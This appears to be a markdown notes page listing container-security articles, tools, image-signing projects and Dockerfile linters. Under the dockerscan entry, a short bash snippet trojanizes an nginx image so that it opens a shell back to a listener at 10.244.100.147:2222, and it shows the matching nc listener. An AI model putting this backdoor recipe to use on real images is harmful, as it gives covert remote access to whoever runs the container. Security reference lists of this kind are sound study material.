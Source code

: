 # Articles
* [Worst best practices on Docker](https://pythonspeed.com/articles/security-updates-in-docker/) and why you should update base images
* [Singularity](https://sylabs.io/guides/3.0/user-guide/quick_start.html) quick start / Single file based container
* [Understanding container escapes](https://blog.trailofbits.com/2019/07/19/understanding-docker-container-escapes/)

# Tools
* [dockerscan](https://github.com/cr0hn/dockerscan) weaponize container images
```bash
docker save nginx:latest -o nginx-original
dockerscan image info nginx-original
dockerscan image analyze nginx-original
dockerscan image modify trojanize nginx-original -l 10.244.100.147 -p 2222 -o nginx-trojan
docker load -i nginx-trojan
# on remote
nc -v -k -l 10.244.100.147 2222
# run 
docker run ngimx:latest
# honk :)
```
* [ccat](https://github.com/RhinoSecurityLabs/ccat)
* [syft](https://github.com/anchore/syft) generate software bill of materials of containers
* [build kit](https://hub.docker.com/r/docker/dockerfile/) cheat sheet
* [buildah](https://github.com/containers/buildah/tree/master/docs/tutorials)
* [dumb-init](https://github.com/Yelp/dumb-init) - Process supervisor that runs with PID 1 and spawns other process inside the container. Handles signals. 
* [distroless](https://github.com/GoogleContainerTools/distroless)
* [google-base-image](https://github.com/GoogleContainerTools/base-images-docker) how google build images with reproducible builds
* [container-diff](https://github.com/GoogleContainerTools/container-diff)
* [dive](https://github.com/wagoodman/dive)
* [skopeo](https://github.com/containers/skopeo)

# Content Trust
* [Google's Cosign](https://github.com/sigstore/cosign)
* [Distroless + Cosign](https://security.googleblog.com/2021/05/making-internet-more-secure-one-signed.html)
* [Notary](https://docs.docker.com/notary/getting_started/)

## Dockerfile and CIS Benchmark
* [Hadolint](https://github.com/hadolint/hadolint) - tests Dockerfile
* [Dockle](https://github.com/goodwithtech/dockle) - tests images
* [Seccomp lab](https://github.com/docker/labs/blob/master/security/seccomp/README.md)
* [Apparmor lab](https://github.com/docker/labs/blob/master/security/apparmor/README.md)


## CVE
* [CVE List](https://www.container-security.site/general_information/container_cve_list.html)
